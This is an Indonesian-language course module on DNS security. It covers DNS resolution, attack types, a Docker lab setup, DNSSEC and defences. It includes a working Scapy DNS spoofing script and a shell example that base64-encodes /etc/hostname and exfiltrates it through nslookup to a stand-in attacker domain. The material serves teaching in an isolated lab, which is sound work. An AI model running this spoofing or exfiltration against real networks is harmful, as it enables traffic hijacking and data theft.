




# 🌐 Pertemuan 7: DNS Security

## Daftar Isi
1. [Pengantar DNS (Domain Name System)](#1-pengantar-dns-domain-name-system)
2. [Hierarki DNS dan Proses Resolusi](#2-hierarki-dns-dan-proses-resolusi)
3. [Kerentanan Protokol DNS](#3-kerentanan-protokol-dns)
4. [Docker Hands-On: Setup Lab DNS Security](#4-docker-hands-on-setup-lab-dns-security)
5. [Hands-On: DNS Cache Poisoning Simulation](#5-hands-on-dns-cache-poisoning-simulation)
6. [Hands-On: DNS Exfiltration dengan Scapy](#6-hands-on-dns-exfiltration-dengan-scapy)
7. [Mengenal DNSSEC (DNS Security Extensions)](#7-mengenal-dnssec-dns-security-extensions)
8. [Deteksi dan Pencegahan](#8-deteksi-dan-pencegahan)
9. [Latihan Mandiri](#9-latihan-mandiri)

---

## 1. Pengantar DNS (Domain Name System)

DNS adalah "buku telepon" internet yang menerjemahkan nama domain (seperti `google.com`) menjadi alamat IP (seperti `142.250.190.46`). Karena DNS dirancang di masa awal internet, aspek keamanan awalnya tidak menjadi prioritas utama.

---

## 2. Hierarki DNS dan Proses Resolusi



### Proses Resolusi Lengkap



### Waktu Resolusi

1. Client → Resolver: **~1ms** (LAN)
2. Resolver → Root: **~50-100ms** (Internet)
3. Root → TLD: **~50-100ms**
4. TLD → Auth: **~50-100ms**
5. Auth → Resolver: **~50-100ms**
6. Resolver → Client: **~1ms**

**Total:** Rata-rata **250-400ms** untuk first query
**Dengan cache:** **~1-2ms** untuk subsequent query

---

## 3. Kerentanan Protokol DNS

| Serangan               | Deskripsi                                                            |
| ---------------------- | -------------------------------------------------------------------- |
| **Cache Poisoning**    | Memberikan jawaban DNS palsu ke resolver untuk disimpan di cache.    |
| **DNS Spoofing**       | Memalsukan paket balasan DNS ke client sebelum server asli membalas. |
| **DNS Exfiltration**   | Mengirimkan data rahasia melalui query DNS (tunneling).              |
| **DDoS Amplification** | Menggunakan DNS untuk memperbesar trafik serangan DoS.               |

### Visualisasi DNS Poisoning Attack



---

## 4. Docker Hands-On: Setup Lab DNS Security

### 4.1 Mengapa Docker untuk DNS Lab?

Docker memudahkan setup **kompleks DNS infrastructure** tanpa perlu konfigurasi yang rumit:

| Fitur | Benefit |
|-------|---------|
| **Isolated DNS Network** | Resolver, Auth servers, clients dalam satu network terkontrol |
| **Easy Multi-Server Setup** | Multiple DNS servers dalam beberapa detik |
| **Real Tools** | `dig`, `nslookup`, `dnschef` bekerja normal |
| **Persistent Logs** | Capture DNS queries untuk analisis |
| **Reproducible** | Setup identik setiap kali |

### 4.2 Quick Start

**Persiapkan Lab:**

```bash
mkdir -p dns-lab && cd dns-lab
wget https://raw.githubusercontent.com/yourrepo/Labs/docker-compose-p7.yml
# atau copy dari Labs/docker-compose-p7.yml

# Start lab
docker-compose -f docker-compose-p7.yml up -d
docker-compose ps
```

**Test Connectivity:**

```bash
# Dari attacker container
docker-compose exec attacker-dns bash

# Test resolusi
dig @192.168.70.3 google.com  # Query ke dns-resolver
nslookup example.com 192.168.70.3
```

### 4.3 Lab Topology



### 4.4 Pre-configured Services

**DNS Resolver (BIND9)**
```bash
# Test query forwarding
dig @192.168.70.3 google.com

# Check cache
docker-compose exec dns-resolver bash
rndc dumpdb -cache  # Lihat cache contents
```

**Authoritative NS Server**
```bash
# Query ke authoritative server
dig @192.168.70.4 -p 5353 mycompany.local
```

**Web Target dengan Secret**
```bash
curl http://192.168.70.5/secret.txt
# Output: sensitive-data-12345
```

### 4.5 Cleanup

```bash
docker-compose down -v
```

---

## 5. Hands-On: DNS Cache Poisoning Simulation

### 5.1 Konsep Serangan
Penyerang mencoba memasukkan entri palsu ke cache server DNS Recursive sehingga semua client yang bertanya ke server tersebut akan diarahkan ke IP penyerang.

### 5.2 Simulasi Sederhana (Spoofing)
Di lab ini, kita akan mencoba memalsukan DNS response menggunakan `Ettercap` atau Python script.

```python
# dns_spoof.py
from scapy.all import *

def dns_responder(pkt):
    if DNS in pkt and pkt[DNS].opcode == 0 and pkt[DNSQR].qname == b"target-site.com.":
        print(f"Mengalihkan {pkt[DNSQR].qname.decode()}...")
        
        # Buat paket balasan palsu
        spf_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)/\
                  UDP(dport=pkt[UDP].sport, sport=pkt[UDP].dport)/\
                  DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                      an=DNSRR(rrname=pkt[DNSQR].qname, ttl=10, rdata="192.168.1.100"))
        
        send(spf_pkt, verbose=0)

print("DNS Spoofer aktif...")
sniff(filter="udp port 53", prn=dns_responder)
```

---

## 6. Hands-On: DNS Exfiltration dengan Scapy

DNS Exfiltration sering digunakan oleh malware untuk mencuri data melalui port 53 yang biasanya terbuka di firewall.

### 6.1 Mekanisme
Data di-encode (misal: Base64) dan disisipkan sebagai subdomain dalam query DNS.
`data-rahasia.attacker.com` -> `ZGF0YS1yYWhhc2lh.attacker.com`

### 6.2 Simulasi Exfiltration
```bash
# Di sisi client (Korban) - Mengirim data
# Misal mencuri file /etc/hostname
DATA=$(cat /etc/hostname | base64)
nslookup $DATA.lab-attacker.local 192.168.1.100
```

```bash
# Di sisi server (Attacker) - Capture data
tcpdump -i eth0 -n udp port 53 -A | grep lab-attacker.local
```

---

## 7. Mengenal DNSSEC (DNS Security Extensions)

DNSSEC menambahkan tanda tangan digital (digital signature) pada data DNS untuk memastikan:
1. **Data Integrity**: Data tidak diubah di tengah jalan.
2. **Origin Authentication**: Data benar-benar berasal dari server yang sah.

---

## 8. Deteksi dan Pencegahan

1. **Gunakan DNSSEC**: Selalu aktifkan jika didukung pendaftar domain.
2. **Gunakan DNS over HTTPS (DoH)**: Mengenkripsi query DNS agar tidak bisa diintip atau dimanipulasi di level ISP.
3. **Konfigurasi Firewall**: Batasi query DNS keluar hanya ke server DNS yang diizinkan.
4. **Monitoring Log**: Cari anomali query DNS yang sangat panjang (potensi exfiltration).

---

## 9. Latihan Mandiri

### Latihan 1: Analisis Query DNS
Gunakan `Wireshark` untuk menangkap trafik saat Anda membuka browser. Perhatikan tipe query (A, AAAA, MX, NS) dan cara server menjawab.

### Latihan 2: Setup Bind9 Aman
Jika Anda melakukan setup DNS server sendiri, pastikan untuk membatasi rekursi hanya untuk IP internal perusahaan (ACL).
